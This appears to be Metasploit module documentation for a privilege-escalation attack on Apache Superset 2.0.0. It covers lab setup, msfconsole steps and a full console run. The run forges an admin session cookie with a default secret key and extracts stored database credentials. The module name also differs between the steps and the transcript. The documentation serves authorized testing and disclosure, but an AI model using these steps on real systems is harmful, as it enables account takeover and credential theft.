 
## Vulnerable Application

Apache Superset versions <= 2.0.0 utilize Flask with a known default secret key which is used to sign HTTP cookies.
These cookies can therefore be forged. If a user is able to login to the site, they can decode the cookie, set their user_id to that
of an administrator, and re-sign the cookie. This valid cookie can then be used to login as the targeted user and retrieve database
credentials saved in Apache Superset.

### App Install

```
sudo docker run -p 8088:8088 --name superset apache/superset:2.0.0
sudo docker exec -it superset superset fab create-admin \
              --username admin \
              --firstname Superset \
              --lastname Admin \
              --email admin@superset.com \
              --password admin

sudo docker exec -it superset superset db upgrade
sudo docker exec -it superset superset init
```

Login to the app, click 'list users' under 'Settings', then click '+'.  make a new user with 'Public' as the role.

If you want any database credentials to be pulled, you'll need to configure a database as well.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/apache_superset_priv_esc`
1. Do: `set rhost [ip]`
1. Do: `set username [username]`
1. Do: `set password [password]`
1. Do: `run`
1. You should get an admin cookie and the database credentials

## Options

### USERNAME

The username to authenticate as. Required with no default.

### PASSWORD

The password for the specified username. Required with no default.

### ADMIN_ID

The ID of an admin account. Defaults to `1`

### SECRET_KEYS_FILE

A file containing secret keys to try. One per line. Defaults to `metasploit-framework/data/wordlists/superset_secret_keys.txt`

## Scenarios

### Superset 2.0.0 Docker image

```
msf6 > use auxiliary/gather/apache_superset_cookie_sig_priv_esc 
msf6 auxiliary(gather/apache_superset_priv_esc) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 auxiliary(gather/apache_superset_priv_esc) > set username user
username => user
msf6 auxiliary(gather/apache_superset_priv_esc) > set password user
password => user
msf6 auxiliary(gather/apache_superset_priv_esc) > set verbose true
verbose => true
msf6 auxiliary(gather/apache_superset_priv_esc) > run
[*] Running module against 127.0.0.1

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Apache Supset 2.0.0 is vulnerable
[*] 127.0.0.1:8088 - CSRF Token: IjkzNDBmZmI4ZDc4M2I4NWNiYzlmNWQwOGM4NTcwZDUzZGVhZDMwZjEi.ZP8uyQ.iBpplhnMpXOZnjiV1Xh_reR_uLw
[*] 127.0.0.1:8088 - Initial Cookie: session=eyJjc3JmX3Rva2VuIjoiOTM0MGZmYjhkNzgzYjg1Y2JjOWY1ZDA4Yzg1NzBkNTNkZWFkMzBmMSIsImxvY2FsZSI6ImVuIn0.ZP8uyQ.jHXs3u8dqoBUWeL1vjUTxXOWLAo;
[*] 127.0.0.1:8088 - Decoded Cookie: {"csrf_token"=>"9340ffb8d783b85cbc9f5d08c8570d53dead30f1", "locale"=>"en"}
[*] 127.0.0.1:8088 - Attempting login
[+] 127.0.0.1:8088 - Logged in Cookie: session=.eJwNjUEKwyAQRa8isw7FYiXGG3TXfQhhojMmdDCgoaWE3L2uHnx4_50ws2BdqYIfT1BHA3yx5C0n6OCZPyhbVLKnLd_USwgrqaP8FCZsC0zX1LWLQnUFzyiVOgi18Hzsb8rgYTAPzby42DuzOBuWMLCN2gVnex2tiYTRaL63mOwBhZrTxOsPSKAxLA.ZP8uyQ.UvNg89u5vOnyFiip1diP8ABrDCY;
.eJwNjUEKwyAQRa8isw7FYiXGG3TXfQhhojMmdDCgoaWE3L2uHnx4_50ws2BdqYIfT1BHA3yx5C0n6OCZPyhbVLKnLd_USwgrqaP8FCZsC0zX1LWLQnUFzyiVOgi18Hzsb8rgYTAPzby42DuzOBuWMLCN2gVnex2tiYTRaL63mOwBhZrTxOsPSKAxLA.ZP8uyQ.UvNg89u5vOnyFiip1diP8ABrDCY
[*] 127.0.0.1:8088 - Checking secret key: \x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h
[-] 127.0.0.1:8088 - Incorrect Secret Key: \x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h
[*] 127.0.0.1:8088 - Checking secret key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[+] 127.0.0.1:8088 - Found secret key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[*] 127.0.0.1:8088 - Modified cookie: {"_flashes"=>[{" t"=>["warning", "Invalid login. Please try again."]}], "_fresh"=>false, "csrf_token"=>"9340ffb8d783b85cbc9f5d08c8570d53dead30f1", "locale"=>"en", "user_id"=>1}
[*] 127.0.0.1:8088 - Attempting to resign with key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[*] 127.0.0.1:8088 - New signed cookie: eyJfZmxhc2hlcyI6W3siIHQiOlsid2FybmluZyIsIkludmFsaWQgbG9naW4uIFBsZWFzZSB0cnkgYWdhaW4uIl19XSwiX2ZyZXNoIjpmYWxzZSwiY3NyZl90b2tlbiI6IjkzNDBmZmI4ZDc4M2I4NWNiYzlmNWQwOGM4NTcwZDUzZGVhZDMwZjEiLCJsb2NhbGUiOiJlbiIsInVzZXJfaWQiOjF9.ZP8uyQ.7Rgp9a7iPK-m7NQRbWpixG62CMo
[+] 127.0.0.1:8088 - Cookie validated to user: admin
[+] Found Super Secret DB: postgresql://dbuser:mysecretpassword@1.1.1.1:15432/supersetdb
[*] Done enumerating databases
[*] Auxiliary module execution completed
msf6 auxiliary(gather/apache_superset_priv_esc) > creds
Credentials
===========

host           origin         service           public  private       realm  private_type  JtR Format
----           ------         -------           ------  -------       -----  ------------  ----------
111.222.3.444  111.222.3.444  3306/tcp (mysql)  root    my-secret-pw         Password      
```
